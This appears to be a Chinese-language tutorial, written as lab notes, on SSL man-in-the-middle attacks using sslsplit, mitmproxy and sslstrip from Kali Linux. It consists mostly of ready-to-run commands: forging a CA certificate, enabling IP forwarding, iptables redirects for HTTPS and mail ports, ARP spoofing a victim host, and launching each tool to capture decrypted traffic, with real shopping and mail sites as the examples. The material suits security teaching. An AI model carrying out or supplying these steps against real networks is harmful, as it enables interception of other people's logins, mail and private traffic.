

# SSL 中间人攻击


* SSL 中间人攻击
* sslsplit
* Mitmproxy
* sslstrip

## SSL 中间人攻击
* 攻击者未与客户端和服务器通信链路中
1. ARP
1. DHCP
1. 修改网关
1. 修改 dns
1. 修改 hosts
1. ICMP、STP、OSPF

* 攻击过程


* 攻击的前提
1. 客户端已经信任伪造证书颁发机构
1. 攻击者控制了合法证书颁发机构
1. 客户端控制了合法证书颁发机构
1. 客户端程序禁止了显示证书错误告警信息
1. 攻击者已经控制了客户端，并强制其信任伪造证书


## sslsplit
* 简介
> 透明SSL中间人攻击工具  
  对客户端伪装成服务器，对服务器伪装成普通客户端  
  伪装服务器需要伪造证书，需要现在本地生成伪造证书  
  支持 SSL 加密的 SMTP、POP3、FTP等通信中间人攻击  


* 利用openssl 生成证书私钥
``` 
root@kali:~# openssl genrsa -out ca.key 2048
    Generating RSA private key, 2048 bit long modulus
    ............................................+++
    ...+++
    e is 65537 (0x010001)

```
* 利用私钥签名生成证书
``` 
root@kali:~# openssl req -new -x509 -days 1096 -key ca.key -out ca.crt
    You are about to be asked to enter information that will be incorporated
    into your certificate request.
    What you are about to enter is what is called a Distinguished Name or a DN.
    There are quite a few fields but you can leave some blank
    For some fields there will be a default value,
    If you enter '.', the field will be left blank.
    -----
    Country Name (2 letter code) [AU]:CN
    State or Province Name (full name) [Some-State]:jilin   
    Locality Name (eg, city) []:changchun
    Organization Name (eg, company) [Internet Widgits Pty Ltd]:alibaba
    Organizational Unit Name (eg, section) []:ali
    Common Name (e.g. server FQDN or YOUR name) []:alibaba
    Email Address []:123456@163.com

```

* 攻击者开启路由功能
``` 
root@kali:~# vim /etc/sysctl.conf
net.ipv4.ip_forward=1
```

* 配置 iptables 规则
``` 
# 查看规则
root@kali:~# iptables -t nat -L -n

# 清空规则
root@kali:~# iptables -t nat -F

# 查看 80 和 443 端口是否有占用
root@kali:~# netstat -tulnp | grep 80
root@kali:~# netstat -tulnp | grep 443

# 编写规则
# PREROUTING：路由生效之前执行规则

# 发给 80 端口的流量转发给 8080
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080

# 发给 443 端口的流量转发给 8443
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443

# MSA：邮件提交代理
iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443 

# SMTPS：简单邮件传输
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443 

# IMAPS：接收邮件
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443 

# POP3S：邮件传输
iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIRECT --to-ports 8443 

iptables -t nat -L -n

```

* 查看被攻击者的机器
``` 
IPv4 地址 . . . . . . . . . . . . : 10.10.10.133
子网掩码  . . . . . . . . . . . . : 255.255.255.0
默认网关. . . . . . . . . . . . . : 10.10.10.2
DHCP 服务器 . . . . . . . . . . . : 10.10.10.254

```

* kali 实现 arp 欺骗
``` 
# kali IP：10.10.10.131
# kali MAC：00:0c:29:89:71:eb 

# 向局域网广播，网关 10.10.10.2 的 MAC 地址为本机 的 MAC：0:c:29:89:71:eb
root@kali:~# arpspoof -i eth0 -t 10.10.10.133 -r 10.10.10.2

```

* 启动 sslsplit 进行攻击
1. 创建目录
``` 
root@kali:~# mkdir -p /root/test/logdir/
```

2. 侦听 8080 和 8443
``` 
sslsplit -D -l connect.log -j /root/test -S /root/test/logdir -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
```

3. 被攻击者访问 https 网站
``` 
https://www.taobao.com

```

4. 攻击者查看捕获的内容
   
5. 被攻击者访问 163 邮箱

## Mitmproxy
* kali 实现 arp 欺骗
``` 
# kali IP：10.10.10.131
# kali MAC：00:0c:29:89:71:eb 

# 向局域网广播，网关 10.10.10.2 的 MAC 地址为本机 的 MAC：0:c:29:89:71:eb
root@kali:~# arpspoof -i eth0 -t 10.10.10.133 -r 10.10.10.2

```
* 防火墙规则
``` 
# Mitmproxy 只支持在 8080 侦听
iptables -t nat -F
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

```

* mitmproxy 启动
``` 
mitmproxy -T --host -w mitmproxy.log

```

## sslstrip
* 简介
> 与前两种工具不同，将客户端到中阿金人之间的流量变为明文  
  sslstrip -l 8080

* kali 实现 arp 欺骗
``` 
# kali IP：10.10.10.131
# kali MAC：00:0c:29:89:71:eb 

# 向局域网广播，网关 10.10.10.2 的 MAC 地址为本机 的 MAC：0:c:29:89:71:eb
root@kali:~# arpspoof -i eth0 -t 10.10.10.133 -r 10.10.10.2

```

* 攻击者启动 sslstrip

``` 
root@kali:~# sslstrip -l 8080
sslstrip 0.9 by Moxie Marlinspike running...

```

* 查看日志
``` 
root@kali:~# cat sslstrip.log 

```

